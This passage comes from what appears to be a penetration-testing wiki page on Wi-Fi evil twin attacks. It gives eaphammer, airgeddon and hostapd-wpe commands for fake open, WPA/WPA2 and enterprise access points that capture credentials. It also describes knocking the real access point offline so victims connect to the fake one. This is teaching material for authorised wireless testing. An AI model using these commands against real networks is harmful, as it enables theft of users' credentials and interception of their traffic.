 - You could also create an Evil Twin using **eaphammer** (notice that to create evil twins with eaphammer the interface **should NOT be** in **monitor** mode):
```bash
./eaphammer -i wlan0 --essid exampleCorp --captive-portal
```
- Or using Airgeddon: `Options: 5,6,7,8,9 (inside Evil Twin attack menu).`

![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-Lwu7LPChpsUrRuodWne%2F-LwuIpco52libBfFC0fR%2Fimage.png?alt=media&token=dce07d3b-5369-4bac-96d0-c760e97e219b)

```
Please, notice that by default if an ESSID in the PNL is saved as WPA protected, the device won't connect automatically to an Open evil Twin. You can try to DoS the real AP and hope that the user will connect manually to your Open evil twin, or you could DoS the real AP an use a WPA Evil Twin to capture the handshake (using this method you won't be able to let the victim connect to you as you don't know the PSK, but you can capture the handshake and try to crack it).

Some OS and AV will warn the user that connect to an Open network is dangerous...
```

#### WPA/WPA2 Evil Twin
```
You can create an **Evil Twin using WPA/2** and if the devices have configured to connect to that SSID with WPA/2, they are going to try to connect. Anyway, **to complete the 4-way-handshake** you also need to **know** the **password** that the client is going to use. If you **don't know** it, the **connection won't be completed**.
```
```bash
./eaphammer -i wlan0 -e exampleCorp -c 11 --creds --auth wpa-psk --wpa-passphrase "mywifipassword"
```

#### Enterprise Evil Twin
To understand this attacks I would recommend to read before the brief [WPA Enterprise explanation](/generic-methodologies-and-resources/pentesting-wifi#wpa-enterprise-mgt).

**Using hostapd-wpe**
`hostapd-wpe` needs a **configuration** file to work. To **automate** the generation if these configurations you could use [https://github.com/WJDigby/apd_launchpad](https://github.com/WJDigby/apd_launchpad) (download the python file inside _/etc/hostapd-wpe/_)

```bash
./apd_launchpad.py -t victim -s PrivateSSID -i wlan0 -cn company.com

hostapd-wpe ./victim/victim.conf -s
```
```
In the configuration file you can select a lot of different things like ssid, channel, user files, cret/key, dh parameters, wpa version and auth...
# https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi/evil-twin-eap-tls
```
```bash
# Generate Certificates
./eaphammer --cert-wizard

# Launch Attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```
